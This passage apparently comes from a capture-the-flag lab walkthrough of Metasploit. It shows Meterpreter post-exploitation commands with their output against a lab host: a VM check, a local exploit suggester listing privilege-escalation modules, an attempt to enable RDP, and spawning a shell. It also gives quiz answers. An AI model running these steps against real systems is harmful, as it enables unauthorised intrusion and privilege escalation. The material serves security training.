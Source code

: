 ```
meterpreter > run post/windows/gather/checkvm

[*] Checking if DARK-PC is a Virtual Machine .....
[+] This is a Xen Virtual Machine
```

`No answer needed`

11. Next, let's try: `run post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room `Ice`.

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.223.155 - Collecting local exploits for x86/windows...
[*] 10.10.223.155 - 30 exploit checks are being tried...
[+] 10.10.223.155 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

`No answer needed`

12. Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: `run post/windows/manage/enable_rdp`

```
meterpreter > run post/windows/manage/enable_rdp

[-] Insufficient privileges, Remote Desktop Service was not modified
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20200911054026_default_10.10.223.155_host.windows.cle_458968.txt
```

`No answer needed`

13. One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?

`shell`

## [Task 7] Makin' Cisco Proud

Last but certainly not least, let's take a look at the autorouting options available to us in Metasploit. While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks.
